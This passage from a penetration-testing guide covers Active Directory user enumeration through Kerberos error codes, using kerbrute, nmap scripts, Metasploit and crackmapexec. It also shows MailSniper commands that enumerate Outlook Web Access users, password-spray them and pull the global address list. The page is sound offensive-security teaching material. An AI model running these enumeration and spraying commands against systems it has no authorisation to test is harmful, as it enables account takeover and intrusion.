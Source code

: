 ### User enumeration

* **Anonymous SMB/LDAP enum:** Check the [**pentesting SMB**](../../network-services-pentesting/pentesting-smb.md) and [**pentesting LDAP**](../../network-services-pentesting/pentesting-ldap.md) pages.
* **Kerbrute enum**: When an **invalid username is requested** the server will respond using the **Kerberos error** code _KRB5KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN_, allowing us to determine that the username was invalid. **Valid usernames** will illicit either the **TGT in a AS-REP** response or the error _KRB5KDC\_ERR\_PREAUTH\_REQUIRED_, indicating that the user is required to perform pre-authentication.

```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
```

* **OWA (Outlook Web Access) Server**

If you found one of these servers in the network you can also perform **user enumeration against it**. For example, you could use the tool [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

{% hint style="warning" %}
You can find lists of usernames in [**this github repo**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) **** and this one ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

However, you should have the **name of the people working on the company** from the recon step you should have performed before this. With the name and surname you could used the script [**namemash.py**](https://gist.github.com/superkojiman/11076951) to generate potential valid usernames.
{% endhint %}

### Knowing one or several usernames
